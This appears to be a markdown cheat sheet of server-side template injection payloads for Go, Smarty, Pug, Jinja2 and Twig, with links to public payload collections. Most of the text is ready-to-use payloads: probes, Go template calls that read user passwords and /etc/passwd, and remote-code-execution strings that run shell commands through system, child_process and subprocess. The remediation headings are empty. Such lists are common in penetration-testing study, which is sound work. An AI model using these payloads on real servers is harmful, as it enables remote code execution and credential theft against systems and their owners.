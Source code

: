 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*'7'}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads of different templates:

## Go SSTI

#### 1) {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

#### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

#### 3) {{ .ExecuteCmd "whoami" }} Executes commands

#### 4) {{ . }} (Dumps variables)

## PHP - Smarty

#### PoC Enumeration Payload

    {'Hello'|upper}
  
#### RCE Payload

    {system("id")}

## NodeJS - Pug

### PoC Payload

    #{7*7}

### RCE Payload

    #{root.process.mainModule.require('child_process').spawnSync('id').stdout}

### SpawnSync RCE Payload with arguments

    #{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}

## Python - Jinja2

### PoC Payload

    {{7*7}}

### RCE Payload

    {{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("id")}}

### check_output RCE Payload with arguments

    {{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls', '-lah'])}}

## PHP - Twig

### PoC Payload

    {{7*7}}

### RCE Payload

    {{exec('id')}}
